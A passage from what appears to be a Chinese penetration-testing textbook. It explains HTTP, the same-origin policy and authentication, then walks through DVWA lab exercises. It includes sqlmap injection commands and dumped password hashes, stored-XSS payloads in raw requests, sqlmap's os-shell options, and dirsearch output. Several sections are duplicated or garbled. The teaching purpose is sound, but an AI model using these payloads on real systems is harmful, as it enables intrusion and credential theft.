

在图 4.2 中，我们可以看到左侧是请求，右侧是服务器响应。在这里我们用红色标出了六个主要部分：

- 1. 方法 (Method)：当前端应用程序向后端应用程序发送数据时，我们需要使用 HTTP 方法（例如 `GET`、`POST`、`HEAD`、`PUT` 等）。在这种情况下，使用 HTTP 方法 `POST` 向后端发送数据。`GET` 方法通常用于从服务器获取数据。

- 2. 请求处理程序路径 (Request handler path，即后端应用程序逻辑所在处)：一旦数据发送到后端应用程序，后端应用程序就应该知道如何处理这些数据以及对它们做什么。后端（服务器端）代码处理数据并据此处理请求。在这种情况下，处理此请求的后端服务器端代码写在托管的 `doLogin` 文件中，并具有处理请求并做出相应响应的逻辑。

- 3. 数据或 HTTP 负载负载 (HTTP payload)：第三个重要点是正在发送的数据。通常，前端应用程序通过几个参数将数据传递给后端应用程序。在这种情况下，它传递了名为 `username`、`password` 和 `Login` 的参数以及它们各自的值，这些值最终将由托管在 Web 服务器上的 `doLogin` 文件中的应用程序逻辑进行处理。

- 4. 请求头 (Request headers)：请求头是每当我们向任何 Web 服务器发送请求时由浏览器发送的一些键值对。请求头通常在浏览器 GUI 中不可见，但在 HTTP 调试器中可见。请求头将具有值，以便服务器以特定方式处理 HTTP 请求。

- 5. HTTP 响应码 (HTTP response code)：一旦 Web 服务器接收并处理了请求，它就会响应返回给客户端。HTTP 协议使用一组标准代码帮助客户端理解请求是成功还是失败。HTTP 响应状态 `302 Found`（如图 4.2 所示）是执行 URL 重定向的一种常用方式。

- 6. HTTP 响应头 (HTTP response headers)：HTTP 响应头是 Web 服务器在每次请求时附加的。与请求头一样，它们是帮助客户端/浏览器理解如何处理或渲染响应的键值对。

我们还有一个响应体 (response body)，它被附加在响应头之后。响应体是 Web 服务器发送给我们的数据，我们在浏览器渲染后可以看到它。

## 关于 HTTP 协议的一些重要概念

在跳到不同的 Web 应用程序漏洞之前，你必须具备 Web 和 HTTP 协议的一些基础知识。在本节中，我们将介绍其中的一些概念。

### HTTP 会话管理

HTTP 是一种无状态协议，这意味着没有内置方法来跟踪相关的请求。每个请求都被视为一个独立的请求。HTTP 使用客户端-服务器架构，并利用 TCP 作为其传输协议，多个请求可以简单地通过一个 TCP 连接发送。然而，客户端和服务器都会额外将这些视为独立的。这里出现的显而易见的问题是，那么 HTTP 协议如何维护会话呢？答案是通过 Cookie。Cookie 是存储在浏览器中的键值对。Cookie 能够跟踪会话，因为它们在后续请求中发送。Cookie 包含特定的会话令牌。跟踪会话对于建立身份验证元素至关重要。系统保持身份验证元素机密性的能力直接决定了该系统的安全性。

### 同源策略 (Same-origin policy)

同源策略是一种浏览器安全机制，旨在阻止网站相互攻击。同源包含 URI 方案、主机名和端口号。例如，考虑以下内容：

`http://example.com/page.html`

下表给出了同源比较的示例：

| URL | 结果 | 原因 |
|---|---|---|
| `http://example.com/dir/page.html` | 同源 | 仅路径不同 |
| `http://example.com/dir2/another.html` | 同源 | 仅路径不同 |
| `http://example.com/dir/inner/another.html` | 同源 | 仅路径不同 |
| `https://example.com/page.html` | 失败 | 协议不同 |
| `http://example.com:81/dir/page.html` | 失败 | 端口不同 (http 默认为 80) |
| `http://news.com/page.html` | 失败 | 主机不同 |

表 4.1：浏览器同源策略

当浏览器从一个源发送 HTTP 请求时，任何类型的 Cookie（包含身份验证会话）都会作为请求的一部分被发送。这意味着响应是在用户的会话中生成的，并且包含用户的特定数据。如果没有同源策略，当你访问恶意网站时，它将能够读取你的 Gmail 电子邮件、Facebook 私人消息等。

### 身份验证与授权 (Authentication versus authorization)

虽然身份验证和授权经常混用，但它们是保护系统或公司免受网络攻击的独立程序。

#### 身份验证 (Authentication)

验证或检查声称的用户/设备/资源的身份是否合法的过程被称为身份验证。常见的身份验证类型之一是使用密码（可能包括密码、识别数字 PIN 或口令）。身份验证通过将一个或多个因素与合法身份数据库（例如以前创建的用户账户）进行对比来验证主体/用户的身份。用于验证身份的身份验证因素通常被归类或被认为是独有信息，并且需要用户/主体完晓。身份验证是访问控制的第一步，有三种常见的方面用于身份验证：

- 你所知的（例如密码）

- 你所拥有的（例如智能卡）

- 你所特征的（例如指纹或其他生物识别方法）

#### 授权

一旦主体（例如用户）通过验证，就必须授予其对某些请求资源的访问权限。授权过程确保了对对象/资源的请求访问是有效的，且请求者拥有与确认的身份相指定的合法权利。在大多数情况下，系统会评估一个访问控制矩阵、`RBAC`（即基于角色的访问控制），该矩阵将主体、对象/资源以及所需的权限进行映射。如果不满足要求，则允许该特定活动；如果满足，则授予访问权限。

即使用户已被识别并验证，也不意味着他们拥有访问系统内所有资源的权限，或者他们被授权了执行任何类型功能的权限。例如，一个用户可能被允许进入网络，但被阻止访问文档或打印设备。大多数网络用户仅被授权执行有限的活动。身份识别和验证是访问控制中“全或无”的方面，然而授权在系统内每个对象的“全”与“无”之间存在着广泛的变体。

## Web应用程序漏洞的不同类型


组织及其操作流程不断发生变化，迎接新客户和新的客户体验。同时，恶意行为不断升级其攻击方法以应对这一变化。坏分子继续在Web应用程序中发现新漏洞并利用它们来获取利益。为了维护用户数据安全和隐私，公司必须防御这些常见的Web应用程序漏洞：

- 破坏的访问控制
- 破坏的身份验证
- 回车符和换行符 (CRLF) 注入
- 不安全的密码转换
- 具有已知漏洞的组件
- 跨源资源共享 (CORS) 策略
- 凭据管理
- 跨站请求伪造 (CSRF)
- 跨站脚本 (XSS)
- 目录索引
- 目录遍历
- 错误处理
- 未限制 URL 访问
- HTTP 响应分割
- HTTP 动词篡改
- 不当的证书验证
- 注入漏洞
- 不安全的加密存储
- 不安全的反序列化
- 不安全的摘要算法（Insecure digest）
- 不安全的直接对象引用 (IDOR)
- 日志记录和监控不足
- 会话过期不足
- 传输层保护不足
- 轻级目录访问协议 (LDAP) 注入
- 缺少函数级访问控制
- 操作系统 (OS) 命令注入
- 竞态条件
- 远程代码执行 (RCE)
- 远程文件包含 (RFI)
- 安全配置错误
- 敏感数据泄露
- 会话 ID 泄漏
- SQL 注入
- 无限制的文件上传
- 失效的自动库激活
- 失效的定向和转发
- XML 外部实体 (XXE)

在单个章节中涵盖所有这些几乎是不可能的，因此我们将讨论一些最流行的漏洞以及坏分子通常如何发现并利用它们。

## 开放 Web 应用安全项目 (OWASP) 和 OWASP Top 10

开放 Web 应用安全项目 (OWASP) 是一个旨在增强软件安全的非营利基金会。OWASP Top 10 是 OWASP 网站上的一个在线记录，列出了十种 Web应用程序安全威胁的排名和修复建议。

这些信息基于安全专家之间的共识。风险的评级基于发现安全漏洞的频率、漏洞的程度及其可能产生的影响。报告的目标是利用程序员和 Web应用程序安全专家对最新安全威胁的智慧，以便他们能够将发现和建议整合到他们的安全实践中，减少这些已知威胁在他们的应用程序中的存在。

## DVVA 简介

Damn Vulnerable Web App (DVVA) 是一个极其脆弱的 PHP/MySQL Web应用程序。它的主要目标是帮助安全专业人员在本地环境中测试他们的技能和工具，帮助开发者更好地理解Web应用程序的安全流程，并帮助教师/学生在教室环境中教授/学习Web应用程序安全。

学生可以从 `https://dvva.co.uk/` 网站下载 DVVA 源码并在本地系统中使用 Apache、PHP 和 MySQL 进行手动配置。然而，也可以从 `https://www.vulnh.com/entry/damn-vulnerable-web-application-dvva-107.43/` 下载预构建的 ISO 文件，并直接在虚拟机上运行。请记住 VulnHub 是一个免费的社区资源，因此我们无法检查提供给我们的机器。在下载之前，请阅读我们关于运行未知虚拟机风险的 FAQ 章节，并查看我们关于保护你自己和网络的建议。如果你理解这些风险，请下载！

### 启动与访问

1. 一旦你通过任何虚拟化平台（如 VMware 或 VirtualBox）启动 ISO，你应该会看到一个提示。为了能够访问该漏洞应用程序，你必须找到 DVVA 虚拟机的 IP 地址。你可以通过执行 `ifconfig` 命令来完成，如下截图所示：

```
Welcome to Ubuntu!
* Documentation: https://help.ubuntu.com/
=DVVA 1.0.7 LiveCD: http://www.dvva.co.uk/
dvva@dvva:$ ifconfig
eth0 link:Ethernet hw:00:0c:29:f3:42:92
inet addr:192.168.15.141 Broadcast:192.168.15.255 Mask:255.255.255
inet6 addr:fe80::20c:29ff:fef3:42:92
```

2. 一旦我们获得了虚拟机的 IP 地址（在我的情况下是 `192.168.15.141`，如图 4.3 所示），你应该能够通过访问 `http://192.168.15.141/login` 来访问应用程序。如果设置成功，你应该会在浏览器中看到以下页面：

3. DVWA 的默认用户名和密码是 `admin` 和 `password`。一旦登录应用程序，你将被重定向到主界面。登录后的第一件事是将应用程序的安全难度从高降低为低，如图 4.5 所示：

| 首页 |
| 指南 |
| 设置 |
| 暴力破解 |
| 命令执行 |
| CSRF |
| 文件包含 |
| SQL 注入 |
| SQL 注入（盲注） |
| 上传 |
| 反射 XSS |

## DVWA 安全

## 脚本安全

安全级别当前为高

你可以将安全级别设置为低、中或高

### PHPPIDS

`PHPIDS` v0.6 (PHP 侵入检测系统) 是一个

现在，我们将深入 OWASP Top 10 中列出的不同 Web 应用程序漏洞，并结合 DVWA 应用程序尝试理解其中一些。

## 注入

注入是 OWASP Top 10 中列的最流行的安全风险。注入是攻击者尝试以合法数据的形式向应用程序发送恶意代码。在本节中，我们将讨论最常见的注入漏洞，例如 SQL 注入和跨站脚本。

### SQL 注入

当开发者在执行数据库查询之前不对用户输入进行清理时，就可能发生 SQL 注入攻击。让我们通过一个非常简单的示例来理解 SQL 注入。假设网站的终端用户可以使用 URL 获取其个人信息：`https://site.com/profile?id=123`。在以下示例中，来自应用程序用户的 `id` 参数被认为是不可信的：

```
varUserId = getString("id");
```

`SQLQuery` = "SELECT * FROM Users WHERE UserId = " + `varUserId`;

在这里我们可以注意到，在第二行中，开发者直接使用了由不可信用户发送的 `id` 参数来构建 SQL 查询。当用户传递一个有效的用户 ID（例如 `1234`）时，SQL 查询看起来如下所示：

```
"SELECT * FROM Users Where UserId = 1234"
```

然而，如果攻击者通过 `id` 参数发送了 `123; DROP TABLE Users;`，SQL 解释器将执行两个查询而不是一个：

- SELECT * from Users UserId = 1234
- DROP table Users

第二个查询将执行非常糟糕的操作，因为它将从数据库中删除 `Users` 表。

从非常高层次来说，SQL 注入有两种类型：

- 基于错误的 SQL 注入 (Error-based SQLi)
- 盲注 SQL (Blind SQLi)

基于错误的 SQL 注入是指目标应用程序在收到格式错误的输入时抛出数据库/SQL 错误的问题类型。在对任何应用程序进行 SQL 注入测试时，渗透人员首先通过向应用程序发送格式错误的输入（如单引号 `'`）进行探测。如果应用程序抛出数据库错误，那么它极有可能易受到基于错误的 SQL 注入。另一方面，盲注 SQL 是目标应用程序不会响应数据库错误信息；它只是在发送格式错误的数据时表现得不同。

#### 基于错误的 SQL 注入

DVWA 包含几个 SQL 注入漏洞。我们将查看如何手动识别此类 SQL 漏洞，并学习如何使用一些开源工具利用该漏洞。最流行的工具是 `sqlmap`。我们将看到如何使用 `SQLMap` 工具来利用 SQL：

为了能够运行 `SQLMap` 工具，你必须首先识别出想要测试 SQL 注入的参数和 URL。在 DVWA 的情况下，如果你导航到 SQL Injection 部分，你应该能看到一个询问用户 ID 的文本字段，如图 4.6 所示：

### 漏洞：SQL 注入

| 主页 |
|---|---|
| 指示 |
| 设置 |
| 暴力破解 |
| 命令执行 |
| CSRF |
| 文件包含 |
| SQL 注入 |
| SQL 注入 (盲注) |
| 上传 |
| 用户 ID: |
| [ 提交] |
| 更多信息 |
| `http://www.securiteam.com/securityreviews/5DP0N1P76E.html` |
| `http://en.wikipedia.org/wiki/SQL_injection` |
| `http://www.unixwiz.net/techtips/sql-injection.html` |



当你在用户 ID 字段中输入关键字时，你会看到前端应用程序正在向服务器发送带有 `id` 和 `Submit` 参数的 GET 请求，并且 URL 已经变成了类似所示的内容：


http://192.168.15.142/vulnerabilities/sqli/?id=debasish&Submit=Submit#

在 DVWA 的情况下，已经知道该组件易受到 SQL 注入的影响。让我们先假设我们并不知道这一点，并且需要确定任何参数是否易受到 SQL 注入的影响。作为渗透人员，你做的第一件事是在参数值中添加单引号 `'`：

http://192.168.15.142/vulnerabilities/sqli/?id=debasish&Submit=Submit#



如果我们遇到任何与数据库相关的错误，意味着服务器端应用程序可能没有对参数进行适当的过滤。该应用程序极有可能受到 SQL 注入。渗透人员始终手动执行 SQL 注入以从数据库中提取有用信息，但也可以使用自动化工具来实现。我们将看到如何在 DVWA 应用程序上使用 `SQLMap` 工具完成这一点。

- 5. 一旦你从 https://sqlmap.org/ 下载并安装了 `SQLMap` 工具，如果设置正确，当你执行时应该看到以下界面：

```
python sqlmap.py
:\Users\Debasish\Downloads\sqlmap>python sqlmap.py
-------------------------------------------------------------
|      H                                                      |
|      O      {1.5.11.9#dev}                                |
|      E      |               https://sqlmap.org             |
|      T      |                                                      |
|      L      |                                                      |
|      V...                                                      |
-------------------------------------------------------------
usage: sqlmap.py [options]
sqlmap.py: error: missing a mandatory option (-d, -u, -1, -m, -r,
      -hh for advanced help
press Enter to continue...
```

图 4.8：SQLMap 控制台

- 6. 现在，为了对 DVWA 中的 `id` 参数进行 SQL 注入测试，我们需要执行以下命令：

```
python sqlmap.py -u http://192.168.15.142/vulnerabilities/sql/?id=debasish&cookie=PHPSID=spd4d1lt703jr3kde6ifshn4mil;security=medium
```

让我们理解传递给 `SQLMap` 工具的参数：

- `-u`: 我们传递了想要测试 SQL 注入的完整 URL。当你传递多个参数时，它会进行处理。
- `-cookie`: 我们必须传递 cookie。

- 7. 在 DVWA 的情况下，我们已经知道该组件易受到 SQL 注入。一旦运行 `SQLMap`，它会显示很多信息：


# 13. 如果 SQLMap 对数据库中的密码进行了哈希处理，它也有自动破解密码的选项。图 4.14 SQLMap 自动破解了 dvwa 密码

```
$ sqlmap -u=... [cracked password] for hash current status: 7345... (e99a18c823bd5d2f6876922e1
[*] current status,[*] cracked charley for hash 86d55375a2c2966d44ce0261
[*] created database status: 5f4d65c4765a065d327abb822ff99f3:47:03:49 for hash
$ sqlmap --dump --batch users
```

| user | avatar | password | last_name | first_name |
| :--- | :--- | :--- | :--- | :--- |
| admin | avatar/hacker/users/admin.jpg | (password) | 5f4d65c4765a065d327abb822ff99f3 | Smith | admin |
| gordon | avatar/hacker/users/gordon.jpg | e99a18c823bd5d2f6876922e1 | (abc123) | Brown | Gordon |
| pablo | avatar/hacker/users/pablo.jpg | 08d179f90556463d5a1e7b8d7 | (le6min) | Picasso | Publo |
| devly | avatar/hacker/users/devly.jpg | (password) | | | bob |

图 4.14: SQLMap 密码哈希破解

# 14. SQLMap 中还有许多具有丰富功能的选项，我们强烈建议你进行浏览和探索：

### 扫描 (Enumeration):

这些选项可以用于枚举后端数据库管理系统的信息、结构以及表中包含的数据

- `-a,--all` 获取所有内容
- `-b,--banner` 获取 DBMS 标志信息（banner）
- `--current-user` 获取 DBMS 当前用户
- `--current-db` 获取 DBMS 当前数据库
- `--passwords` 枚举 DBMS 用户密码哈希
- `--table` 枚举 DBMS 数据库表
- `--columns` 枚举 DBMS 数据库列
- `--schema` 举 DBMS 模式（schema）
- `--dump` 导出 DBMS 数据库表记录
- `--dump-all` 导出所有 DBMS 数据库表记录
- `-D DB` 指定要枚举的 DBMS 数据库
- `-T TBL` 指定要枚举的 DBMS 数据库
- `-C COL` 指定要枚举的 DBMS 列

### 操作系统访问 (Operating system access):

这些选项可以利用操作系统访问后端数据库管理系统

- `--os-shell` 提示一个交互式操作系统 shell
- `--os-pwn` 提示一个 OOB（带外）shell、Meterpreter 或 VNC

### 通用 (General):

这些选项用于设置一些通用工作参数

- `--batch` 永不询问用户输入，使用默认行为
- `--flush-session` 刷新当前目标的会话文件

### 杂项 (Miscellaneous):

这些选项不属于任何其他类别


在这个特定的示例中，我们已经通过 `GET` 参数看到了 SQL 注入，但 SQL 注入可以发生在任何 `HTTP` 方法中。

SQLMap 还会测试目标应用是否存在盲注 SQL 注入，以防没有看到数据库错误。我们建议你针对 DVWA 的盲注 SQLi 组件测试 SQLMap；这将被留作为一个作业。此外，值得记住，在这个例子中 sqlmap 成功了，是因为漏洞的性质非常直接。然而，你可能会遇到 sqlmap 无法利用 SQL 注入漏洞的情况。在这种情况下，手动干预是必须的。要手动执行 SQL 注入，需要大量的 SQL 知识，因此我们强烈建议你学习一些 SQL 基础知识。

## SQL 注入速查表 (cheat sheet)

SQL 注入速查表是一种资源，你可以在其中找到关于 SQL 注入漏洞许多变体的详细技术信息。该速查表对于经验渗透测试人员和刚开始 Web 应用安全的人来说都有很好的参考价值。可以在下页找到 SQL 注入有效负载列表，我们强烈建议你进行探索：

https://portswigger.net/web-security/sql-injection/cheat-sheet

## 防御 SQL 注入的主要措施

这些是 OWASP 推荐的主要防御机制，可以防止 SQLi 的发生或减少其影响：

- 使用预语句（带参数化查询）
- 使用存储过程
- 白名单输入验证
- 转义所有用户提供的输入
- 强制最小权限原则
- 将白名单输入验证作为次要防御

# 跨站脚本 (XSS)


跨站脚本 (XSS) 攻击是一种注入类型，将恶意脚本注入到良性和受信任的网站。当应用程序获取不可信的数据并在不进行任何服务器验证的情况下将其发送客户端（浏览器）时，就会发生跨站脚本。

让我们结合 DVWA 来理解这一点。一旦我们导航到 DVWA 的反射型 XSS 模块，我们看到应用程序要求输入用户名。一旦我们输入名称，它就会返回我们的名称，如图 4.16 所示：

## 漏洞：反射型跨站脚本 (XSS)



## 更多信息


在这个特定的示例中，我们已经通过 `GET` 参数看到了 SQL 注入，但 SQL 注入可以发生在任何 `HTTP` 方法中。`SQLMap` 还会测试目标应用是否存在盲注 SQL 注入，以防没有看到数据库错误。我们建议你针对 DVWA 的盲注 SQLi 组件测试 `SQLMap`；这将被留作为一个作业。此外，值得记住，在这个例子中 sqlmap 成功了，是因为漏洞的性质非常直接。然而，你可能会遇到 sqlmap 无法利用 SQL 注入漏洞的情况。在这种情况下，手动干预是必须的。要手动执行 SQL 注入，需要大量的 SQL 知识，因此我们强烈建议你学习一些 SQL 基础知识。

可以通过注入一些特殊字符来实现，就像你在反射型 XSS 案例中看到的那样。

如果我们拦截 DVWA 在提交消息并发送到服务器时拦截请求，我们将看到类似[图 4.22](#)所示的内容。



图 4.22：原始 HTTP 请求

现在，对于 XSS，我们只需要在以下参数中注入有效负载 `<script>alert('xss-name')</script>`：

- `txtName`
- `txtMessage`

```
POST /vulnerabilities/xss_m/ HTTP/1.1
Host: 192.168.0.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://192.168.0.111
Connection: close
Cookie: PHPSESSID=7joDockSijnveveegdtb9ge2;security=low
Upgrade-Requests: 1
tName=Debashick&txtName=Test+Message&txtName=Sign+Guestbook
```

```
POST /vulnerabilities/xss_m/ HTTP/1.1
Host: 192.168.0.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://192.168.0.111
Connection: close
Refer: http://192.168.0.111/vulnerabilities/xss_m/
Cookie: PHPSESSID=7joDockSijnveveegdtb9ge2;security=low
Upgrade-Requests: 1
tName=Debashick&script>alert('xss-name')</script>&txtMessage=Test+Message<script>alert('xss-message')</script>&btnSign=Sign+Guestbook
```

图 4.23：在 Burp 中注入 XSS 有效负载

一旦提交消息，我们会立即看到两个显示 xss-name 和 xss-message 的弹出窗口，如图 4.24 和图 4.25 所示，这意味着这两个参数都易受到跨站脚本攻击的影响：

## 漏洞：存储型跨站脚本 (XSS)



图 4.24：DVWA XSS name 参数



图 4.25：DVWA XSS message 参数

渗透测试人员在生产环境中测试应用程序的存储型 XSS 时应该非常小心，因为可能会对目标应用造成重大损害。

### 基于 DOM 的 XSS

基于 DOM 的 XSS 是一种 XSS 类型，其数据源源于 DOM，在 DOM 中被摄用并执行，且 XSS 有效负载从不离开浏览器。让我们尝试结合 DVWA 理解基于 DOM 的 XSS。导航到 DVWA 的 DOM XSS 模块。我们看到它允许我们选择语言并提交，如图 4.26 所示：



图 4.26：DVWA DOM XSS

当我们这样做时，我们看到页面重新加载，并带有名为 `default` 的参数以及我们在做出选择时给出的值。此外，下拉列表自动设置为我们选择的内容。我们在浏览器中看到的 URL 是：

`http://192.168.0.111/vulnerabilities/xss_d/?default=English`

为了理解 DOM XSS，我们必须理解页面的源代码。当我们拥有页面的客户端代码时，可以看到图 4.27：

```
<script>
if (document.location.href.indexOf("default=") > 0) {
 lang=document.location.href.substring(document.location.href.indexOf("default=")+9);
 lang=decodeURIComponent(lang);
document.write("<option value=\"English\">English</option>");
document.write("<option value=\"English\" disabled>French</option>");
document.write("<option value=\"Spanish\">Spanish</option>");
document.write("<option value=\"German\">German</option>");
}
</script>
```

图 4.27：DVWA DOM XSS 源代码（注：原文中代码块存在多处引号错误，此处按原意保留逻辑）


```
C:\Users\Debashish>dirsearch -u http://192.168.15.141/
dirsearch v0.4.2
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 36
Output File: c:\python37\lib\site-packages\dirsearch\reports\192.168
Error Log: c:\python37\lib\site-packages\dirsearch\logs\errors-21-11
Target: http://192.168.15.141/
[22:12:36] Starting:
[22:12:37] 403 - 1KB - /.ht_passwd.txt
[22:12:37] 403 - 1KB - /.htaccess_bak1
[22:12:37] 403 - 1KB - /.htaccess_orig
[22:12:37] 403 - 1KB - /.htaccess_sample
[22:12:37] 403 - 1KB - /.htaccess_save
[22:12:37] 403 - 1KB - /.htaccess_extra
[22:12:37] 403 - 1KB - /.htaccess_sc
[22:12:37] 403 - 1KB - /.htaccess_orig
[22:12:37] 403 - 1KB - /.htaccess.bak
[22:12:37] 403 - 1KB - /.htaccessOLD
[22:12:37] 403 - 1KB - /.htaccessOLD2
[22:12:37] 403 - 1KB - /.html
[22:12:37] 403 - 1KB - /.passwords
[22:12:37] 403 - 1KB - /.passwd_test
[22:12:38] 200 - 1KB - /.svn/all-wccprops
[22:12:38] 301 - 4138 - /.svn/ -> http://192.168.15.141/.svn/
[22:12:38] 200 - 1KB - /.svn/
[22:12:38] 200 - 1KB - /.svn/entries
[22:12:39] 200 - 1KB - /.svn/text-base/
[22:12:39] 200 - 5388 - 5KB - /.svn/text-base/index.php.svn-base
[22:12:39] 200 - 5KB - /CHANGELOG.txt
[22:12:39] 200 - 5KB - /README.txt
[22:12:40] 302 - 0B - /about.php -> login.php
```

该工具拥有一列表预定义的路径，它尝试使用暴力破解方法访问这些路径，并在屏幕上打印发现的结果。我们现在将审查 DVWA 中的一些发现结果。

## DVWA 启用了 Apache server-info

Apache `/server-info` 显示关于你的 Apache 配置的信息。DVWA 的配置不当导致它泄露了 Apache 服务器信息页面：

